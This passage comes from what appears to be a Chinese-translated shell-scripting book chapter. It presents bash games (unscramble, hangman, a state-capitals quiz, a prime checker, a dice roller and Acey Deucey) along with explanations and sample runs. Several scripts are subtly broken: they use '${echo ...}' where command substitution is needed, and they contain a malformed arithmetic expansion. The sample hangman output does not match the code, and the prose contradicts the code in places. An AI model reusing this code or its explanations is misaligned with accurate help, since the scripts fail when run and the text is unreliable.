            guesses=$(( $guesses + 1 ))
            echo ""
            echo "*** You got it with tries = ${guesses}! Well done!! ***"
            echo ""
            correct=$(( $correct + 1 ))
        elif [ "$guess" = "next" -o "$guess" = "quit" ] ; then
            echo "The unscrambled word was \"$match\". Your tries: $guesses"
        else
            echo "Nope. That's not the unscrambled word. Try again."
            guesses=$(( $guesses + 1 ))
        fi
    done
done

echo "Done. You correctly figured out $correct out of $total scrambled words."

exit 0
```

Listing 12-1：`unscramble` shell 脚本游戏

#### 工作原理

为了从文件中随机选取一行，此脚本使用了`randomquote`（第 213 页的脚本 #68）❶，尽管该脚本最初是为网页编写的（就像许多优秀的 Unix 工具一样，事实证明它在预期用途之外的场景中同样有用）。

这个脚本最难的部分是想出如何打乱单词。Unix 中没有方便的现成工具可以实现这一点，但事实证明，如果我们逐字母遍历拼写正确的单词，并随机地将每个后续字母添加到打乱序列的开头或结尾 ❷，每次都能以不同且不可预测的方式打乱单词。

注意`$scrambled`在这两行中的位置：在第一行中，添加的字母被追加到末尾，而在第二行中，它被前置到开头。

除此之外，主要的游戏逻辑应该很容易理解：外部的`until`循环 ❸ 会一直运行，直到用户输入`quit`作为猜测；而内部的`while`循环 ❹ 会一直运行，直到用户猜中单词或输入`next`跳到下一个单词。

#### 运行脚本

此脚本没有参数或变量，因此只需输入脚本名称即可开始游戏！

#### 运行结果

运行后，shell 脚本会向用户展示不同长度的乱序单词，并记录用户成功还原了多少个单词，如清单 12-2 所示。

```bash
$ unscramble
Picked out a word!

You need to unscramble: ninrenoccg

Your guess (quit|next) : concerning

*** You got it with tries = 1! Well done!! ***

Picked out a word!

You need to unscramble: esivrmipod

Your guess (quit|next) : quit
The unscrambled word was "improvised". Your tries: 0
Done. You correctly figured out 1 out of 2 scrambled words.
```

清单 12-2：运行`unscramble` shell 脚本游戏

> 显然，第一个单词的猜测非常有灵感！

#### 改造脚本

如果能提供某种提示方法，或者增加一个请求最低可接受单词长度的标志，会让这个游戏更有趣。为了实现前者，或许可以显示还原后单词的前`n`个字母，但要扣除一定的分数；每请求一次提示就多显示一个字母。对于后者，你需要一个扩充的单词字典，因为脚本自带的字典中单词长度最小为 10 个字母——这可不容易！

### 84 刽子手（Hangman）：在太晚之前猜出单词

尽管这个单词游戏有一个阴森的隐喻，但“刽子手”依然是一个令人愉快的经典游戏。在游戏中，你猜测隐藏单词中可能包含的字母，每次猜错，绞架上被吊起的人就会被画上一个新的身体部位。如果猜错次数过多，这个人的形象将被完整绘制出来，那么你不仅输了，而且，嗯，大概你也“死”了。后果相当严厉！

不过，游戏本身很有趣，而且将其编写为 shell 脚本证明出奇地简单，如清单 12-3 所示。对于这个脚本，你同样需要我们在第 275 页脚本 #83 中使用的单词列表：将书籍资源中的`long-words.txt`文件保存到`/usr/lib/games`目录下。

#### 代码

```bash
#!/bin/bash

# hangman--A simple version of the hangman game. Instead of showing a
#     gradually embodied hanging man, this simply has a bad-guess countdown.
#     You can optionally indicate the initial distance from the gallows as
#     the only argument.

wordlib="/usr/lib/games/long-words.txt"
empty="\."  # We need something for the sed [set] when $guessed="".
games=0

# Start by testing for our word library datafile.

if [ ! -r "$wordlib" ] ; then
    echo "$0: Missing word library $wordlib" >&2
    echo "(online: http://www.intuitive.com/wicked/examples/long-words.txt)" >&2
    echo "save the file as $wordlib and you're ready to play!)" >&2
    exit 1
fi

# The big while loop. This is where everything happens.

while [ "$guess" != "quit" ] ; do
    match=($(randomquote $wordlib))
    # Pick a new word from the library.

    if [ $games -gt 0 ] ; then
        echo ""
        echo "*** New Game! ***"
    fi

    games=$(( $games + 1 ))
    guessed=""
    guess=""; bad=${1:-6}
    partial=$(echo $match | sed "s/[^${empty}$guessed]/-/g")

    # The guess > analyze > show results > loop happens in this block.

    while [ "$guess" != "$match" -a "$guess" != "quit" ] ; do
        echo ""
        if [ ! -z "$guessed" ] ; then    # Remember, ! -z means "is not empty".
            /bin/echo -n "guessed: $guessed, "
        fi
        echo "steps from gallows: $bad, word so far: $partial"

        /bin/echo -n "Guess a letter: "
        read guess
        echo ""

        if [ "$guess" = "$match" ] ; then  # Got it!
            break
        elif [ "$guess" = "quit" ] ; then  # You're out? Okay.
            exit 0
        # Now we need to validate the guess with various filters.
        elif [ $(echo $guess | wc -c | sed 's/[^0-9]//g') -ne 2 ] ; then
            echo "Uh oh: You can only guess a single letter at a time"
        elif [ ! -z "$(echo $guess | sed 's/[^a-z]//g')" ] ; then
            echo "Uh oh: Please only use lowercase letters for your guesses"
        elif [ -z "$(echo "${echo $guess | sed "s/[^${empty}$guessed]//g"}" )" ] ; then
            echo "Uh oh: You already tried $guess"
        # Now we can actually see if the letter appears in the word.
        elif [ "$(echo $match | sed "s/$guess//g")" != "$match" ] ; then
            guessed="$guessed$guess"
            partial=$(echo $match | sed "s/[^${empty}$guessed]/-/g")
            if [ "$partial" = "$match" ] ; then
                echo "** You've been pardoned!! Well done! The word was \"$match\"."
                guess="$match"
            else
                echo "* Great! The letter \"$guess\" appears in the word!"
            fi
        elif [ $bad -eq 1 ] ; then
            echo "** Uh oh: you're out of steps. You're on the platform..."
            echo "** The word you were trying to guess was \"$match\""
            guess="$match"
        else
            echo "* Nope, \"$guess\" does not appear in the word."
            guessed="$guessed$guess"
            bad=$(( $bad - 1 ))
        fi
    done
done
exit 0
```

清单 12-3：`hangman` shell 脚本游戏

#### 工作原理

此脚本中的测试都很有趣且值得研究。思考 ❶ 处的测试，它检查玩家输入的猜测是否超过了一个字母。

为什么测试值是否为 2 而不是 1？因为输入的数值包含用户按下 ENTER 键时产生的回车符（这是一个字符，`\n`），如果输入正确，它包含两个字符而非一个。当然，该语句中的`sed`过滤掉了所有非数字值，以避免与`wc`喜欢输出的前导制表符产生混淆。


检测小写字母非常直接❷。从`guess`中删除所有小写字母，然后查看结果是否为零（空）。

最后，为了检查用户是否已经猜测过该字母，对`guess`进行转换，删除`guess`中在`guessed`变量中也出现的任何字母。结果是否为零（空）❸？

除了这些测试之外，使“刽子手”游戏运行起来的技巧是：将原单词中所有猜中的字母替换为破折号，然后将结果与未被破折号替换的原单词进行比较➊。如果它们不同（也就是说，单词中有一个或多个字母现在是破折号），则猜中的字母在单词中。例如，当单词是`cat`时，猜测字母`a`会导致`guessed`变量持有值为`-a-`的猜测结果。

实现“刽子手”游戏的一个关键点是：向玩家显示的部分填空的单词（变量`partial`）在每次正确猜测后都会重新构建。因为变量`guessed`累积了玩家猜测的每个字母，因此使用`sed`转换将原单词中不在`guessed`字符串中的每个字母翻译成破折号即可实现➋。

### 运行脚本

`hangman`游戏有一个可选参数：如果你指定一个数值作为参数，代码将将其作为允许的错误猜测次数，而不是默认的 6 次。清单 12-4 展示了在没有参数的情况下运行`hangman`脚本的情况。

### 运行结果

```bash
$ hangman

steps from gallows: 6, word so far: ----------
Guess a letter: e

* Great! The letter "e" appears in the word!

guessed: e, steps from gallows: 6, word so far: -e--e------
Guess a letter: i

* Great! The letter "i" appears in the word!

guessed: ei, steps from gallows: 6, word so far: -e--e--i----
Guess a letter: o

* Great! The letter "o" appears in the word!

guessed: eio, steps from gallows: 6, word so far: -e--e--io--
Guess a letter: u

* Great! The letter "u" appears in the word!

guessed: eiou, steps from gallows: 6, word so far: -e--eiou---
Guess a letter: m

* Nope, "m" does not appear in the word.

guessed: eioum, steps from gallows: 5, word so far: -e--e---iou---
Guess a letter: n

* Great! The letter "n" appears in the word!

guessed: eioumn, steps from gallows: 5, word so far: -en-en-iou---
Guess a letter: r

* Nope, "r" does not appear in the word.

guessed: eioum r, steps from gallows: 4, word so far: -en-en-iou---
Guess a letter: s

* Great! The letter "s" appears in the word!

guessed: eioumrs, steps from gallows: 4, word so far: sen-en-ious--
Guess a letter: t

* Great! The letter "t" appears in the word!

guessed: eioumrst, steps from gallows: 4, word so far: sententious--
Guess a letter: l

* Great! The letter "l" appears in the word!

guessed: eioumrstl, steps from gallows: 4, word so far: sententiousl-
Guess a letter: y

** You've been pardoned!! Well done! The word was "sententiously".

*** New Game! ***

steps from gallows: 6, word so far: ----------
Guess a letter: quit
```

清单 12-4：运行 `hangman` shell 脚本游戏

### 改造脚本

显然，使用 shell 脚本很难实现“吊在绞架上的人”的图形，所以我们使用了计数“距离绞架的步数”作为替代方案。不过，如果你有动力，你可能会定义一系列预设的“文本”图形，每一步对应一个，并在游戏进行时输出它们。或者你可以选择某种非暴力的替代方案！

请注意，同一个单词可能会被选中两次，但由于默认单词列表包含 2,882 个不同的单词，这种情况发生的概率很低。但如果这是一个问题，在选择单词的那一行代码中，也可以将之前所有出现过的单词保存在一个变量中，并进行筛选以确保没有重复。

最后，如果你有动力，让已猜测字母列表按字母顺序排列会很不错。这有两种方法，我们会使用`sed|sort`。

## 85 美国州首府测验

一旦你拥有了一个能从文件中随机选择一行的工具，你能够编写的测验游戏类型就再无限制。我们汇总了一份美国所有 50 个州的首府列表，可从`http://www.nostarch.com/wcss2/`下载。将`state.capitals.txt`文件保存到你的`/usr/lib/games`目录下。清单 12-5 中的脚本会随机从文件中选择一行，显示该州名称，并要求用户输入对应的首府。

### 代码

```bash
#!/bin/bash
# states--一个州首府猜测游戏。需要州首府
# 数据文件 state.capitals.txt。

db="/usr/lib/games/state.capitals.txt"  # 格式为 State[tab]City.

if [ ! -r "$db" ] ; then
    echo "$0: Can't open $db for reading." >&2
    echo "(get state.capitals.txt)" >&2
    echo "save the file as $db and you're ready to play!)" >&2
    exit 1
fi

guesses=0; correct=0; total=0

while [ "$guess" != "quit" ] ; do
    thiskey="${randomquote $db}"

    # $thiskey 是选中的行。现在让我们抓取州和城市信息，
    # 然后将城市名称的全小写版本设为 "match"。

    state="${echo $thiskey | cut -d\t -f1 | sed 's/$/ /g'}"
    city="${echo $thiskey | cut -d\t -f2 | sed 's/$/ /g'}"
    match="${echo $city | tr '[:upper:]' '[:lower:]'}"

    guess="??"; total=$(($ total + 1 )) ;

    echo ""
    echo "What city is the capital of $state?"

    # 主循环，所有操作在此发生。脚本会循环直到
    # 城市被正确猜出，或者用户输入 "next" 
    # 跳过当前题目，或输入 "quit" 退出游戏。

    while [ "$guess" != "$match" -a "$guess" != "next" -a "$guess" != "quit" ]
    do
        /bin/echo -n "Answer: "
        read guess

        if [ "$guess" = "$match" -o "$guess" = "$city" ] ; then
            echo ""
            echo "*** Absolutely correct! Well done! ***"
            correct=$(( $correct + 1 ))
            guess=$match
        elif [ "$guess" = "next" -o "$guess" = "quit" ] ; then
            echo ""
            echo "$city is the capital of $state." # 这是你应该知道的 :)
        else
            echo "I'm afraid that's not correct."
        fi
    done

done

echo "You got $correct out of $total presented."
exit 0
```

清单 12-5：州首府知识竞赛 Shell 脚本！

### 工作原理

对于这样一个有趣的游戏，`states`涉及的脚本编写非常简单。数据文件包含州/首府配对，州名和首府名中的所有空格都被替换为连字符，且两个字段由单个制表符分隔。因此，从数据中提取城市和州名非常容易❶。

每次猜测都会与城市名称的全小写版本（`match`）以及正确的大小写版本进行比较，以确定是否正确。如果不正确，则将猜测内容与两个命令词`next`和`quit`进行比较。如果其中任何一个匹配，脚本将显示答案，并根据情况提示下一个州或退出。如果没有匹配，则认为猜测错误。

### 运行脚本

此脚本没有参数或命令标志。直接启动并开始游戏即可！

### 运行结果

准备好测试自己的州首府知识了吗？清单 12-6 展示了我们的州首府知识竞赛技能在实际运行中的情况！

```text
$ states

What city is the capital of Indiana?
Answer: Bloomington
I'm afraid that's not correct.
Answer: Indianapolis

*** Absolutely correct! Well done! ***

What city is the capital of Massachusetts?
Answer: Boston

*** Absolutely correct! Well done! ***

What city is the capital of West Virginia?
Answer: Charleston

*** Absolutely correct! Well done! ***

What city is the capital of Alaska?
Answer: Fairbanks
I'm afraid that's not correct.
Answer: Anchorage
I'm afraid that's not correct.
Answer: Nome
I'm afraid that's not correct.
Answer: Juneau

*** Absolutely correct! Well done! ***

What city is the capital of Oregon?
Answer: quit

Salem is the capital of Oregon.
You got 4 out of 5 presented.
```

清单 12-6：运行`states`知识竞赛 Shell 脚本

幸运的是，游戏仅记录最终正确的猜测，而不会记录你进行了多少次错误猜测，或者你是否偷偷跑去 Google 查找答案！

### 修改脚本

这个游戏最大的弱点可能是它对拼写要求太苛刻。一个有用的修改是添加允许模糊匹配的代码，例如，让用户输入的`Juneu`也能匹配`Juneau`。这可以使用修改后的 *Soundex 算法* 来实现，在该算法中，元音被删除，重复的字母被压缩为单个字母（例如，`Annapolis`将转换为`nplls`）。这可能对你的口味来说太宽松了，但这个通用概念值得考虑。

与其他游戏一样，一个提示功能也会很有用。也许可以在请求时显示正确答案的第一个字母，并在游戏进行过程中记录使用了多少次提示。

虽然这个游戏是为州首府编写的，但很容易修改脚本以适用于任何形式的配对数据文件。例如，使用不同的文件，你可以创建意大利语词汇测验、国家/货币匹配或政治人物/政党测验。正如我们在 Unix 中反复看到的，编写具有一定通用性的程序可以让它以有用且有时出人意料的方式被重复使用。

## 86 这个数是质数吗？

质数是指只能被自身和 1 整除的数，例如 7。另一方面，6 和 8 不是质数。识别个位数的质数很简单，但当我们跳到更大的数字时，情况就会变得复杂。

有不同的数学方法来确定一个数是否为质数，但让我们坚持使用暴力法，尝试所有可能的除数，看看是否有任何一个除数的余数为零，如清单 12-7 所示。

### 代码

```bash
#!/bin/bash
# isprime--给定一个数字，确定它是否为质数。这使用了所谓的
# 试除法：简单地检查从 2 到 (n/2) 的任何数字
# 是否能整除该数字且没有余数。

counter=2
remainder=1

if [ $# -eq 0 ]; then
    echo "Usage: isprime NUMBER" >&2
    exit 1
fi

number=$1

# 3 和 2 是质数，1 不是。

if [ $number -lt 2 ]; then
    echo "No, $number is not a prime"
    exit 0
fi

# 现在让我们进行一些计算。

while [ $counter -le $(expr $number / 2) -a $remainder -ne 0 ]
do
    remainder=$(expr $number % $counter)  # '/' 是除法，'%' 是取余
    # echo "  for counter $counter, remainder = $remainder"
    counter=$(expr $counter + 1)
done

if [ $remainder -eq 0 ]; then
    echo "No, $number is not a prime"
else
    echo "Yes, $number is a prime"
fi
exit 0
```

清单 12-7：`isprime`脚本！

### 工作原理

此脚本的核心在于`while`循环，因此请仔细观察❶。如果我们尝试的数字是 77，条件语句将测试：

```bash
while [ 2 -le 38 -a 1 -ne 0 ]
```

显然这是假的：77 不能被 2 整除。每次代码测试一个潜在除数（`$counter`）并发现它不能整除时，它会计算余数（`$number % $counter`）并将`$counter`加 1。它就这样缓慢地继续进行。

### 运行脚本

让我们挑选几个看起来像是质数的数字，并在清单 12-8 中进行测试。

```text
$ isprime 77
No, 77 is not a prime
$ isprime 771
No, 771 is not a prime
$ isprime 701
Yes, 701 is a prime
```

清单 12-8：在一些数字上运行`isprime` Shell 脚本

如果你好奇，可以取消`while`循环中`echo`语句的注释，以查看计算过程，并感受脚本寻找能整除该数的除数的速度之快（或之慢）。事实上，我们就这样做一次，测试 77，如清单 12-9 所示。

### 运行结果

```text
$ isprime 77
for counter 2, remainder = 1
for counter 3, remainder = 2
for counter 4, remainder = 1
for counter 5, remainder = 2
for counter 6, remainder = 5
for counter 7, remainder = 0
No, 77 is not a prime
```

清单 12-9：运行取消了调试行注释的`isprime`脚本

### 修改脚本

这个脚本在数学公式的实现上存在一些低效之处，导致运行速度大大降低。例如，考虑`while`循环的条件。我们一直在计算`$(expr $number / 2)`，而实际上我们只需要

只需计算一次该值，并在随后的每次迭代中直接使用计算出的结果，这样就无需每次都创建子 shell 并调用`expr`来发现该值自上次迭代以来根本没有发生任何变化。

此外，还有一些更聪明的素数测试算法值得探索，包括命名非常优雅的埃拉托斯特尼筛法（sieve of Eratosthenes），以及更现代的公式，如顺达拉姆筛法（sieve of Sundaram）和较为复杂的阿特金筛法（sieve of Atkin）。你可以在网上查看它们，并测试你的电话号码（不含连字符！）是否为素数。

### 87 让我们掷骰子

这是一个非常实用的脚本，适合任何喜欢桌面游戏的人，尤其是像 *龙与地下城 (Dungeons & Dragons)* 这样的角色扮演游戏。


人们对这些游戏的普遍认知就是掷大量的骰子，而事实确实如此。这完全关乎概率，所以有时你会掷一枚 20 面骰子，有时则掷六枚 6 面骰子。骰子是如此简单的随机数生成器，以至于大量游戏都在使用它，无论是单枚、两枚（想想大富翁（Monopoly）或 `Trouble`）还是更多。

事实证明，这些都可以很容易地进行建模，这就是代码清单 12-10 中脚本所做的工作：允许用户指定需要多少个什么种类的骰子，然后将它们全部“掷出”，并提供一个总和。

## 代码

```bash
#!/bin/bash
# rolldice--Parse requested dice to roll and simulate those rolls.
# Examples: d6 = one 6-sided die
# 2d12 = two 12-sided dice
# d4 3d8 2d20 = one 4-side die, three 8-sided, and two 20-sided dice

rolldie()
{
	dice=$1
	dicecount=1
	sum=0

	# First step: break down arg into MdN.

	if [ -z "${echo $dice | grep ' d'}" ] ; then
		quantity=1
		sides=$dice
	else
		quantity=$(echo $dice | cut -dd -f1)
		if [ -z "$quantity" ] ; then # User specified dN, not just N.
			quantity=1
		fi
		sides=$(echo $dice | cut -dd -f2)
	fi

	echo "" ; echo "rolling $quantity $sides-sided die"

	# Now roll the dice...

	while [ $dicecount -le $quantity ] ; do
	    roll=$(( ( $RANDOM % $sides ) + 1 ))
	    sum=$(( $sum + $roll ))
	    echo "  roll #$dicecount = $roll"
	    dicecount=$(( $dicecount + 1 ))
	done

	echo I rolled $dice and it added up to $sum
}

while [ $# -gt 0 ] ; do
    rolldie $1
    sumtotal=$(( $sumtotal + $sum ))
    shift
done

echo ""
echo "In total, all of those dice add up to $sumtotal"
echo ""
exit 0
```

代码清单 12-10：`rolldice` 脚本

## 工作原理

该脚本围绕着一行简单的代码展开，通过引用 `$RANDOM` 这一便捷快捷方式来调用 `bash` 的随机数生成器。这是关键所在；其他所有内容都只是装饰。

另一个有趣的部分是拆解骰子描述的地方，因为该脚本支持这三种记号：`3d8`、`d6` 和 `20`。为了方便起见，这是一种标准的博弈记号：骰子数量 + `d` + 骰子应有的面数。例如，`2d6` 表示两枚 6 面骰子。看看你是否能弄清楚每种记号是如何被处理的。

对于这样一个简单的脚本来说，输出内容相当多。你可能想根据自己的喜好对其进行调整，但在这里你可以看到，这些语句只是验证它是否正确解析了骰子请求的一种便捷方式。

哦，还有 `cut` 的调用？请记住，`-d` 表示字段分隔符，因此 `-d` 只是简单地表示使用字母 `d` 作为该分隔符，这正是这种特殊骰子记号所需要的。

## 运行脚本

让我们从简单的开始：在代码清单 12-11 中，我们将使用两枚 6 面骰子，就像在玩大富翁一样。

```text
$ rolldice 2d6
rolling 2 6-sided die
roll #1 = 6
roll #2 = 2
I rolled 2d6 and it added up to 8
In total, all of those dice add up to 8
```

```text
$ rolldice 2d6
rolling 2 6-sided die
roll #1 = 4
roll #2 = 2
I rolled 2d6 and it added up to 6
In total, all of those dice add up to 6
```

代码清单 12-11：使用一对六面骰子测试 `rolldice` 脚本

注意，第一次“掷”这两枚骰子时，结果是 6 和 2，但第二次结果是 4 和 2。来一次快速的 Yachtzee（快艇骰子）掷骰如何？很简单。我们在代码清单 12-12 中掷五枚六面骰子。

```text
$ rolldice 5d6
rolling 5 6-sided die
roll #1 = 2
roll #2 = 1
roll #3 = 3
roll #4 = 5
roll #5 = 2
I rolled 5d6 and it added up to 13
In total, all of those dice add up to 13
```

代码清单 12-12：使用五枚六面骰子测试 `rolldice` 脚本

这不是一次很棒的掷骰：1, 2, 2, 3, 5。如果我们是在玩 Yachtzee，我们会保留那对 2，然后重新掷其他的骰子。

当你需要掷一组更复杂的骰子时，事情会变得更有趣。在代码清单 12-13 中，让我们尝试两枚 18 面骰子、一枚 37 面骰子和一枚 3 面骰子（因为我们不需要担心 3D 几何形状的限制）。

```text
$ rolldice 2d18 1d37 1d3
rolling 2 18-sided die
roll #1 = 16
roll #2 = 14
I rolled 2d18 and it added up to 30
rolling 1 37-sided die
roll #1 = 29
I rolled 1d37 and it added up to 29
rolling 1 3-sided die
roll #1 = 2
I rolled 1d3 and it added up to 2
In total, all of those dice add up to 61
```

代码清单 12-13：运行使用多种骰子类型的 `rolldice` 脚本

很酷，吧？对这组杂乱的骰子再次掷了几次，结果分别是 22, 49 和 47。现在你们知道了，玩家们！

## 改造脚本

这个脚本没什么可改造的，因为任务太简单了。我们唯一建议的是微调程序产生的输出量。例如，像 `5d6: 2 3 1 3 7 = 16` 这样的记号会更节省空间。

## Acey Deucey 纸牌游戏

本章的最后一个脚本我们将创建 Acey Deucey 纸牌游戏，这意味着我们需要想办法创建并“洗”一副扑克牌，以获得随机结果。这比较棘手，但你为这个游戏编写的函数将为你提供一个通用解决方案，你可以用它来制作更复杂的游戏，如 Blackjack（二十一点），甚至是 Rummy（拉米）或 Go Fish（钓鱼游戏）。

游戏规则很简单：发两张牌，然后押注接下来翻开的第三张牌的点数是否在之前两张牌之间。花色无关紧要；关键在于点数，且平局算输。因此，如果你翻开一张红桃 6 和一张梅花 9，而第三张牌是方块 6，那么你就输了。黑桃 4 同样算输。但梅花 7 则算赢。

所以这里有两个任务：整个纸牌组的模拟以及游戏本身的逻辑（包括询问用户是否要下注）。哦，还有一件事：如果你发出的两张牌点数相同，那么下注就没有意义，因为你不可能赢。

这将是一个有趣的脚本。准备好了吗？请看代码清单 12-14。

## 代码

```bash
#!/bin/bash
# aceydeucey: Dealer flips over two cards, and you guess whether the
# next card from the deck will rank between the two. For example,
# with a 6 and an 8, a 7 is between the two, but a 9 is not.

function initializeDeck
{
    # Start by creating the deck of cards.

    card=1
    while [ $card -le 52 ]    # 52 cards in a deck. You knew that, right?
    do
        deck[$card]=$card
        card=$(( $card + 1 ))
    done
}

function shuffleDeck
{
    # It's not really a shuffle. It's a random extraction of card values
    # from the 'deck' array, creating newdeck[] as the "shuffled" deck.

    count=1

    while [ $count != 53 ]
    do
        pickCard
        newdeck[$count]=$picked
        count=$(( $count + 1 ))
    done
}

function pickCard
{
    # This is the most interesting function: pick a random card from
    # the deck. Uses the deck[] array to find an available card slot.

    local errcount randomcard

    threshold=10    # Max guesses for a card before we fall through
    errcount=0

    # Randomly pick a card that hasn't already been pulled from the deck
    # a max of $threshold times. Fall through on fail (to avoid a possible
    # infinite loop where it keeps guessing the same already dealt card).

    while [ $errcount -lt $threshold ]
    do
        randomcard=$(( ($RANDOM % 52) + 1 ))
        errcount=$(( $errcount + 1 ))

        if [ ${deck[$randomcard]} -ne 0 ] ; then
            picked=${deck[$randomcard]}
            deck[$picked]=0    # Picked--remove it.
            return $picked
        fi
    done

    # If we get here, we've been unable to randomly pick a card, so we'll
    # just step through the array until we find an available card.

    randomcard=1

    while [ ${newdeck[$randomcard]} -eq 0 ]
    do
        randomcard=$(( $randomcard + 1 ))
    done

    picked=$randomcard
    deck[$picked]=0    # Picked--remove it.

    return $picked
}
```

```bash
function showCard
{
	# 这使用了除法和取模运算来确定花色和点数，尽管
	# 在这个游戏中，只有点数重要。不过，呈现形式
	# 也很重要，所以这有助于让结果更美观。

	card=$1

	if [ $card -lt 1 -o $card -gt 52 ]; then
		echo "Bad card value: $card"
		exit 1
	fi

	# 除法和取模 —— 看吧，学校里学的那些数学没白费！

	suit=$(( ( ( $card - 1) / 13 ) + 1 ))
	rank=$(( $card % 13 ))

	case $suit in
		1 ) suit="Hearts" ;;
		2 ) suit="Clubs"  ;;
		3 ) suit="Spades" ;;
		4 ) suit="Diamonds" ;;
		* ) echo "Bad suit value: $suit"
			exit 1
	esac

	case $rank in
		0 ) rank="King"  ;;
		1 ) rank="Ace"   ;;
		11) rank="Jack"  ;;
		12) rank="Queen" ;;
	esac

	cardname="$rank of $suit"
}

function dealCards
{
	# Acey Deucey 游戏会翻开两张牌...

	card1=${newdeck[1]} # 因为牌组已经洗过，我们取出
	card2=${newdeck[2]} # 牌组顶部的两张牌
	card3=${newdeck[3]} # 并秘密地选择第三张牌。

	rank1=$(( ${newdeck[1]} % 13 )) # 获取点数值
	rank2=$(( ${newdeck[2]} % 13 )) # 以便后续计算方便。
	rank3=$(( ${newdeck[3]} % 13 ))

	# 修正 K 的点数：默认 rank = 0，将其设为 rank = 13。

	if [ $rank1 -eq 0 ]; then
		rank1=13;
	fi

	if [ $rank2 -eq 0 ] ; then
	    rank2=13;
	fi
	if [ $rank3 -eq 0 ] ; then
	    rank3=13;
	fi

	# 现在我们对它们进行排序，确保 card1 总是低于 card2。

	if [ $rank1 -gt $rank2 ] ; then
	    temp=$card1; card1=$card2; card2=$temp
	    temp=$rank1; rank1=$rank2; rank2=$temp
	fi

	showCard $card1 ; cardname1=$cardname
	showCard $card2 ; cardname2=$cardname
	showCard $card3 ; cardname3=$cardname # 嘘，这暂时是个秘密。

	echo "I've dealt: " ; echo " $cardname1" ; echo " $cardname2"
}

function introblurb
{
    cat << EOF
欢迎来到 Acey Deucey。这个游戏的目标是正确猜测第三张牌是否在我要从牌组中抽出的两张牌之间。例如，如果我翻开一张红桃5和一张方块J，你需要打赌下一张牌的点数是否比5高 且 比J低（即任何花色的6, 7, 8, 9 或 10）。

准备好了吗？开始吧！
EOF
}

games=0
won=0

if [ $# -gt 0 ] ; then    # 如果指定了参数，则显示有用的信息
    introblurb
fi

while [ /bin/true ] ; do

initializeDeck
shuffleDeck
dealCards

splitValue=$(( $rank2 - $rank1 ))

if [ $splitValue -eq 0 ]; then
	echo "当点数相同时，下注没有意义！"
	continue
fi

/bin/echo -n "间距为 $splitValue。你认为下一张牌会 "
/bin/echo -n "在它们之间吗？(y/n/q) "
read answer

if [ "$answer" = "q" ]; then
	echo ""
	echo "你一共玩了 $games 局，赢了 $won 次。"
	exit 0
fi

echo "我抽到的是: $cardname3"

# 它在值之间吗？让我们测试一下。记住，点数相等 = 输。

if [ $rank3 -gt $rank1 -a $rank3 -lt $rank2 ]; then # 赢了！
	winner=1
else
	winner=0
fi

if [ $winner -eq 1 -a "$answer" = "y" ]; then
	echo "你打赌它在两者之间，结果确实在。赢了！"
	won=$(( $won + 1 ))
elif [ $winner -eq 0 -a "$answer" = "n" ]; then
	echo "你打赌它不在两者之间，结果确实不在。赢了！"
	won=$(( $won + 1 ))
else
	echo "下注策略错误。你输了。"
fi

games=$(( $games + 1 ))# 你玩了多少次？

done

exit 0
```

代码清单 12-14：`aceydeucey` 脚本游戏

## 工作原理

模拟一副洗过的扑克牌并不容易。首先是要考虑如何表示卡牌本身，其次是如何将一副原本有序的牌组进行“洗牌”或随机组织。

为了解决这个问题，我们创建了两个包含 52 个元素的数组：`deck[]` ❶ 和 `newdeck[]` ❷。前者是一个有序卡牌数组，每当一个值被“选中”并放入 `newdeck[]` 的随机槽位时，该值会被替换为 `-1`。


那么，`newdeck[]` 数组就是“洗过”的牌组。虽然在这个游戏中我们只使用了前三张牌，但考虑通用解决方案比考虑特定方案要有趣得多。

这意味着这个脚本有点大材小用了。但嘿，它很有意思。

让我们逐步分析函数，看看它是如何工作的。首先，初始化牌组非常简单，你可以翻回去查看`initializeDeck`函数。

同样，`shuffleDeck`出奇地简单，因为所有的工作实际上都在`pickCard`函数中完成了。`shuffleDeck`只是遍历`deck[]`中的 52 个槽位，随机选择一个尚未被选中的值，并将其保存到`newdeck[]`的第 n 个数组空间中。

让我们看看`pickCard`❷，因为那是洗牌的核心工作所在。该函数分为两个代码块：第一个代码块尝试随机选择一张可用卡牌，并给予它`$threshold`次尝试机会。当函数被反复调用时，前几次调用总是能成功，但在过程后期，一旦有 50 张牌已经移到了`newdeck[]`中，很有可能连续 10 次随机猜测都失败。这就是❶处的整个代码块。

一旦`$errorcount`等于`$threshold`，为了性能，我们基本上会放弃这种策略，转而执行第二个代码块：逐张遍历牌组，直到找到一张可用卡牌。这就是❸处的代码块。

如果你思考这个策略的影响，你会发现你设置的阈值越低，`newdeck`越可能是顺序的，尤其是在牌组的后期。在极端情况下，`threshold = 1`将产生一个有序牌组，其中`newdeck[] = deck[]`。10 是正确的值吗？这有点超出了本书的范围，但我们欢迎任何想要通过实验确定随机性与性能之间最佳平衡点的人给我们发邮件！

`showCard`函数很长，但其中大多数行其实只是为了让结果美观。整个牌组模拟的核心体现在❹处的两行代码中。

在这个游戏中，花色无关紧要，但你可以看到，对于给定的卡牌值，点数（rank）将是 0–12，花色（suit）将是 0–3。卡牌的属性只需要映射到用户友好的值即可。为了方便调试，梅花 6 的点数为 6，Ace 的点数为 1。King 的默认点数为 0，但我们将其调整为 13 以使数学计算生效。

`dealCards`函数❺是 Acey Deucey 游戏真正开始的地方：之前所有的函数都是为了实现任何卡牌游戏都可用的通用函数集。`dealCards`函数分发游戏所需的所有三张牌，尽管第三张牌在玩家下注之前是隐藏的。这只是为了让操作更简单——并不是为了让计算机作弊！在这里你还可以看到，单独存储的点数值（`$rank1`、`$rank2`和`$rank3`）针对 King = 13 的情况进行了修正。同样为了方便，顶部的两张牌经过排序，使低点数的牌总是排在前面。这就是❻处的`if`代码块。

在❷处，是时候展示分发的牌了。最后一步是呈现卡牌，检查点数是否匹配（在这种情况下，我们将跳过让用户决定是否下注的提示），然后测试第三张牌是否在前两张之间。这个测试在❸处的代码块中完成。

最后，下注结果的判断比较微妙。如果你打赌抽出的牌在第一张和第二张之间且结果确实如此，或者你打赌它不在之间且结果确实不在，你就赢了。否则，你就输了。这个结果在最后的代码块中计算得出。

## 运行脚本

指定任何启动参数，游戏都会给你一个关于如何玩的简要说明。否则，你将直接进入游戏。

让我们看看代码清单 12-15 中的介绍部分。

## 运行结果

```text
$ aceydeucey intro

欢迎来到 Acey Deucey。这个游戏的目标是正确猜测第三张牌是否在我要从牌组中抽出的两张牌之间。例如，如果我翻开一张红桃5和一张方块J，你需要打赌下一张牌的点数是否比5高 且 比J低（即任何花色的6, 7, 8, 9 或 10）。

准备好了吗？开始吧！

I've dealt:
  3 of Hearts
  King of Diamonds
The spread is 10. Do you think the next card will be between them? (y/n/q) y
I picked: 4 of Hearts

You bet that it would be between the two, and it is. WIN!

I've dealt:
